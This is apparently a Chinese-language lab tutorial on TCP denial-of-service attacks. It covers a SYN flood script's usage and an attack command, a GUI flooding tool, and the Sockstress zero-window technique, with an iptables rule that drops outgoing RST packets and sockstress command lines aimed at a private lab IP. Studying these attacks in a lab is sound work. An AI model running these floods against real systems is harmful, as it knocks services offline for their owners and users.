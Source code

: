  查看脚本帮助

```
┌──(root㉿kali)-[/home/kali]
└─# python3 syn_flood.py -h
Usage - ./syn_flood.py [Target-IP] [Port Number] [Threads]
Example - ./sock_stress.py 10.0.0.5 80 20
Example will perform a 20x multi-threaded SYN flood attack
against the HTTP (port 80) service on 10.0.0.5

```

攻击命令：

```
python syn-flodd.py 192.168.70.12 3389 20
```

 

#### 软件实现syn_flood攻击

攻击软件：FastSend

 

**攻击效果抓包截图：**

  ![image-20221225154502352](https://img.gyxnb.top/img/image-20221225154502352.png)

![image-20221225154508773](https://img.gyxnb.top/img/image-20221225154508773.png)

###  socktress

2008年有Jack C.Louis发现，针对TCP服务的拒绝服务攻击：

-  消耗被攻击目标系统资源，与攻击目标建立大量socket链接
-  完成三次握手**最后的ACK包window大小为0**（客户端不接收数据），攻击者资源消耗小（CPU 内存 带宽）
- 异步攻击，单机可拒绝服务高配资源服务器
-  window窗，实现的TCP流控

 

#### 脚本实现socktress攻击

攻击脚本：socktress

环境准备：

```
# 防火墙需要进行配置，阻止RST包发出

iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.70.12 -j DROP

说明：发一个包释放一个连接，这种达不到攻击郊果。要构成攻击效果可以通过iptables限止发送RST包。
```

攻击命令：HTTP协议访问 

```
# C攻击脚本
./sockstress 192.168.70.12:80 eth0
./sockstress 192.168.70.12:80 eth0 -d 100000
./sockstress 192.168.70.12:80 eth0 -p payloads/http
说明：-d是微秒内指定，默认为1000000 改成10之后并发带度更快
```
